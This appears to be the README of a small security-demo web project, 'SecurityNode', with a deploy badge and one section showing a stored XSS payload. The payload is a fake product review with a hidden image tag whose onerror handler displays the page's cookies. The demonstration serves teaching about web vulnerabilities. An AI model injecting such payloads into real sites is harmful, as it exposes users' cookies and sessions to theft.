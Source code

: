 # SecurityNode
[![Netlify Status](https://api.netlify.com/api/v1/badges/236e6c62-ed0d-4a0c-b2b6-c30bb8e14737/deploy-status)](https://app.netlify.com/sites/objective-snyder-f1032e/deploys)

Build & Deploy on Netlify on https://dev-node-security.vercel.app/

### XSS
```
Awesome product!
<img src="xyz" style="display:none" onerror="alert(`Your Cookies: ${document.cookie}`);">
```
